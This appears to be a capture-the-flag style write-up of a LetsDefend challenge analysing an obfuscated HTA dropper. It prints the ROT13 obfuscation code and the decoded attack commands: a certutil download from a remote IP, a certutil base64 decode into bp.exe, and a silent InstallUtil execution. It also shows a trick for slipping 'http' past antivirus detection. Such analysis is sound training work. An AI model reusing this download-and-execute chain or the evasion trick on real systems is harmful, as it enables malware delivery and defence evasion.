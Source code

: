 ```yaml
---
title: "Let's Defend: Obfuscated HTA"
description: "A small writeup for analysis of an Obfuscated HTA file challenge from LetsDefend."
date: 2025-02-18T20:43:13-06:00
image: ldef.png
math: 
license: 
---
```

## Description
>A suspicious HTA (HTML Application) file was found on an infected machine. The file is obfuscated to hide its true purpose. Your task is to analyze the code, reverse the obfuscation, and determine what the file is doing. Focus on how the code works and the actions it performs to uncover its true purpose.

## Investigation
The script defines "alph" for the alphabet string, and "ranalph" for presumably randomized alphabet string:
```js
   var alph = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".split("");  
   var ranalph = "NOPQRSTUVWXYZABCDEFGHIJKLMnopqrstuvwxyzabcdefghijklm".split("");
   var num = "0123456789".split("");  
   var sym = "/$:;-\\%#*&!. ".split("");
```

A careful look can see that `ranalph` is not truly randomized, but rather has the alphabet shifted. `num` stores numbers, and `sym` is for special characters, symbols.

The `scram` function defines a nested loop that exchanges a character from `alph` with the same character number presented in `ranalph`:
```js
var scram = function(sample) {  
       var result = "";  
       for (var x=0; x<sample.length; x++) {  
               for (var y=0; y<alph.length; y++) {  
                       if (sample[x]==alph[y]) {  
                               result+=ranalph[y];  
                       }  
               }  
       for (var s=0; s<sym.length; s++) {  
           if(sample[x]==sym[s]) {  
               result+=sym[s];  
           }  
       }  
       for (var n=0; n<num.length; n++) {  
           if(sample[x]==num[n]) {  
               result+=num[n];  
           }  
       }  
          
       }  
       return result.toString();  
   }
```

As `ranalph` is ROT13 of original, this transforms strings by character shifting 13 letters. Numbers and special characters are also included if they exist in the `sym` or `num` variables. There is not much more to obfuscation, so we can proceed with deobfuscating and answering questions

## Answers


### 1. What is the deobfuscated result of the sample in str1?
In an interesting method to obfuscate, the comments above messages contain the deobfuscated string:
```js
   //certutil.exe -urlcache -split -f    
   var sample = " preghgvy.rkr -heypnpur -fcyvg -s ";
```

Regardless, we can use CyberChef's ROT13 to deobfuscate

![](images/cyberchef.png)

### 2. After deobfuscating the sample in str2, what is the resulting output?

The str2 function:
```js
   // 192.168.49.122:8080/file.txt C:\\Windows\\Tasks\\file.txt  
   sample = "192.168.49.122:8080/svyr.gkg P:\\Jvaqbjf\\Gnfxf\\svyr.gkg" //modify IP:PORT and payload as required;  
   str2 = scram(sample);
```

### 3. What is the deobfuscated result of sample in str3?

```js
   //http://  
   sample = "uggc://"  
   str3 = scram(sample);
```

### 4. What does the sample in str4 translate to after deobfuscation?
```js
   // certutil -decode C:\\Windows\\Tasks\\file.txt C:\\Windows\\Tasks\\bp.exe  
   sample = "preghgvy -qrpbqr P:\\Jvaqbjf\\Gnfxf\\svyr.gkg P:\\Jvaqbjf\\Gnfxf\\oc.rkr";  
   str4 = scram(sample);
```

### 5. What is the deobfuscated result of sample in str5?

```js
   // C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=false /U C:\\Win  
dows\\Tasks\\bp.exe  
   sample = "P:\\Jvaqbjf\\Zvpebfbsg.ARG\\Senzrjbex64\\i4.0.30319\\VafgnyyHgvy.rkr /ybtsvyr= /YbtGbPbafbyr=snyfr /H  
P:\\Jvaqbjf\\Gnfxf\\oc.rkr";  
   str5 = scram(sample);
```

### 6. What is the deobfuscated value of the "wobj" variable?

```js
   //Wscript.shell  
   sample = "Jfpevcg.furyy";  
   wobj = scram(sample);
```

### 7. What is the purpose of the cmd variable in the script?

```js
   //%compspec% is an env var for cmd.exe, set t= sets an env variable containing the string http which defende  
r was flagging on.
   cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";
```

The commented message this time is not the decoded command this time, but considering we have already decoded the variables `str3`, `str1` and `str2` it is a matter of combining the values together:
```
%comspec% /v /c "set t=http://&&certutil.exe -urlcache -split -f!t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

Alternatively, the commented commands at the end provide a suggestion you can use to print out the commands
```js
   cmd = "%comspec% /v /c \"set t=" + str3 + "&&" + str1 + "!t!" + str2 + "\"";  
   cmd2 = str4;  
   cmd3 = str5;  
   //alert(cmd);  
   //alert(cmd2);  
   //alert(cmd3);
```

We can paste the script into a javascript sandbox and produce `cmd`, `cmd2` and `cmd3`. Using [JavaScript Playground](https://playcode.io/javascript): 

![](images/javascript_sandbox.png)

```
cmd: %comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
cmd2: certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
cmd3: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile /LogToConsolefalse /U C:\Windows\Tasks\bp.exe
```

### 8. What is the second command executed by the "ActiveXObject"

The second command is `cmd2`, so this is answered above. 
```
certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
```

## Impact

Decoding the `cmd` variables directly conveys what the script attempts to accomplish

### cmd
```
%comspec% /v /c "set t=http://&& certutil.exe -urlcache -split -f !t!192.168.49.122:8080/file.txt C:\Windows\Tasks\file.txt"
```

Using `%comspec%` invokes cmd.exe. `/v` flag allows for variables to be assigned (the "set t=" section), `/c` flag is for executing the following arguments. As commented in the original payload, "http://" is set as a variable and invoked later as `!t!` to avoid antivirus flags.

`certutil.exe` is invoked to download a remote file from the address `http://192.168.49.122:8080/file.txt`, and saved as `C:\Windows\Tasks\file.txt`. 

### cmd2

```
certutil -decode C:\Windows\Tasks\file.txt C:\Windows\Tasks\bp.exe
```

`certutil -decode` decodes input from base64, the file `file.txt`. The output is a PE file, `C:\Windows\Tasks\bp.exe`

### cmd3

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile /LogToConsolefalse /U C:\Windows\Tasks\bp.exe
```

Using the .NET Framework assembly installer `InstallUtil.exe` to install the payload `bp.exe`. `LogToConsolefalse` will hide information output to console, effectively acting as a "silent" install.
